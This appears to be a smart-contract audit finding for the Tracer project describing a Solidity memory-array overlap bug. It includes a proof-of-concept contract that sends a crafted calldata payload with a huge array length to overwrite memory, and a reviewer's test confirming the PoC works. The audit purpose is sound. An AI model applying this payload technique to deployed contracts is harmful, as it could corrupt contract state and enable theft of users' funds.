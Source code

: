 These array memory parameters can be  problematic if not used properly. For example, if the array is very large, it may overlap over other part of memory (`Liquidation.sol` [L274](https://github.com/code-423n4/2021-06-tracer/blob/74e720ee100fd027c592ea44f272231ad4dfa2ab/src/contracts/Liquidation.sol#L274)).

This an example to show the exploit:
```solidity
// based on https://github.com/paradigm-operations/paradigm-ctf-2021/blob/master/swap/private/Exploit.sol
pragma solidity ^0.4.24; // only works with low solidity version

contract test{
struct Overlap {
uint field0;
}
event log(uint);

function mint(uint[] memory amounts) public returns (uint) {
// this can be in any solidity version
Overlap memory v;
v.field0 = 1234;
emit log(amounts[0]); // would expect to be 0 however is 1234
return 1;
}

function go() public { // this part requires the low solidity version
uint x=0x800000000000000000000000000000000000000000000000000000000000000; // 2^251
bytes memory payload = abi.encodeWithSelector(this.mint.selector, 0x20, x);
bool success=address(this).call(payload);
}
}
```

Recommend checking array length before using it.

**[raymogg (Tracer) commented](https://github.com/code-423n4/2021-06-tracer-findings/issues/35#issuecomment-874362760):**
 > Duplicate of #79

**[sporejack (Tracer) commented](https://github.com/code-423n4/2021-06-tracer-findings/issues/35#issuecomment-875179515):**
 > So the provided PoC code works (under `solc` 0.4.24) subject to test case:
>
> ```javascript
> const { expect } = require("chai");
>
> describe("Overlap", async () => {
>     describe("go", async () => {
>         let overlapFactory;
>         let overlap;
>
>         before(async () => {
>             overlapFactory = await ethers.getContractFactory("Overlap");
>             overlap = await overlapFactory.deploy();
>
>             await overlap.deployed();
>         });
>
>         context("When called", async () => {
>           it("Emits `log` event with correct value", async () => {
>             var firstAmount = ethers.BigNumber.from("1234");
>
>             await expect(overlap.go()).to.emit(overlap, "log").withArgs(firstAmount);
>           });
>         });
>     });